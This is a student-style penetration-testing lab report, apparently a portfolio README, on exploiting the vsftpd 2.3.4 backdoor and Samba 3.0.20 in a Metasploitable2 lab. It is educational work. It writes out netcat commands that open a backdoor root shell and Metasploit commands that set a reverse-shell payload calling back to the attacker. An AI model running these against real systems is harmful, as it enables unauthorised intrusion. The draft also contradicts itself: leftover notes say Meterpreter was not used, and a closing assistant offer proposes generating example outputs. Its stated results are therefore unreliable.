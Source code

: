 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) 

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/34c3b8c116d0e423931981bfdc966a7bf373244b/Pentest-Labs/screenshots/nmap_version_port_scan.png)

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/fa77757b69c17942f5b6ac69fa3ea0955e164f4c/Pentest-Labs/screenshots/nc_user_pass_exploit.png)

* After login, connect to port 6200 to get a shell:
  
```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", and "ls" command were ran to show root access and files.

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/0c13deda10d5ea5146ad7055da298159402aafca/Pentest-Labs/screenshots/nc_root_access.png)

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**

```bash
msfconsole
(change me below. I used a slightly different method.)
use exploit/multi/samba/usermap_script 
set RHOSTS <target-ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp 
set LHOST <your-ip>
run
```

3. **Result:** Obtained a Meterpreter session with root privileges. (I did not use Meterpreter. Change this)

---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```
